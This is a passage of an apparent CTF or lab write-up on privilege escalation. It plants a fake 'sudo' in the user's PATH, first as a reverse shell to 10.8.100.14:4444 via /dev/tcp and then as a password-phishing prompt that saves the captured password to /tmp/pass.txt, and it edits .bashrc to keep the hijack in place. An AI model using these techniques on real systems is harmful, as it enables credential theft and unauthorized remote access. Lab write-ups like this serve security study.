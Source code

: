 ```bash
frank@workstation:~/.local/bin$ cat sudo
#!/bin/bash
sudo bash -i >& /dev/tcp/10.8.100.14/4444 0>&1

frank@workstation:~/.local/bin$ chmod +x sudo
```

Doesn't work, since `sudo`, in our case, requires that someone type the `frank`'s password.

So we can replace official `sudo` binary with a malicious script that reads user input and store value in a variable.

This is the actual `sudo`'s output

```bash
frank@workstation:~$ sudo cat /etc/shadow
[sudo] password for frank:
```

So we use `read` to "fake" the remote connection, that way:

```bash
frank@workstation:~$ cat .local/bin/sudo
#!/bin/bash
read -p "[sudo] password for frank:" password
echo $password > /tmp/pass.txt
frank@workstation:~$ chmod +x .local/bin/sudo
```

...after a while, it seems not working, even if, in another shell, we got the intendend `PATH`:

```bash
frank@workstation:~$ env |grep PATH
PATH=/home/frank/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
frank@workstation:~$ which sudo
/home/frank/.local/bin/sudo
```

Maybe we can "force" the malicious PATH in `.bashrc`:

```bash
frank@workstation:~$ head .bashrc
export PATH=/home/frank/.local/bin:$PATH
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the pa
..
..
..
```

### frank password

We got password!

```bash
frank@workstation:~$ ls /tmp/
pass.txt

```
